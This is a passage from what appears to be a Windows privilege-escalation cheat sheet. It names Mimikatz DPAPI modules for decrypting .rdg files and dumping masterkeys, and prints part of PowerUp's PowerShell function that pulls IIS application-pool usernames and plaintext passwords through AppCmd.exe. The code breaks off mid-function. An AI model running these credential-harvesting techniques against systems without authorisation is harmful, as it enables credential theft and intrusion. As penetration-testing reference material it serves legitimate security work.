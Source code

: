 Use the **Mimikatz** `dpapi::rdg` module with appropriate `/masterkey` to **decrypt any .rdg files**\
You can **extract many DPAPI masterkeys** from memory with the Mimikatz `sekurlsa::dpapi` module

### AppCmd.exe

**Note that to recover passwords from AppCmd.exe you need to be Administrator and run under a High Integrity level.**\
**AppCmd.exe** is located in the `%systemroot%\system32\inetsrv\` directory.\
If this file exists then it is possible that some **credentials** have been configured and can be **recovered**.

This code was extracted from _**PowerUP**_:

```bash
function Get-ApplicationHost {
    $OrigError = $ErrorActionPreference
    $ErrorActionPreference = "SilentlyContinue"

    # Check if appcmd.exe exists
    if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
        # Create data table to house results
        $DataTable = New-Object System.Data.DataTable

        # Create and name columns in the data table
        $Null = $DataTable.Columns.Add("user")
        $Null = $DataTable.Columns.Add("pass")
        $Null = $DataTable.Columns.Add("type")
        $Null = $DataTable.Columns.Add("vdir")
        $Null = $DataTable.Columns.Add("apppool")

        # Get list of application pools
        Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {

            # Get application pool name
            $PoolName = $_

            # Get username
            $PoolUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"
            $PoolUser = Invoke-Expression $PoolUserCmd

            # Get password
            $PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"
            $PoolPassword = Invoke-Expression $PoolPasswordCmd

            # Check if credentials exists
            if (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array])) {
                # Add credentials to database
                $Null = $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)
            }
        }

        # Get list of virtual directories
        Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {

            # Get Virtual Directory Name
            $VdirName = $_

            # Get username
```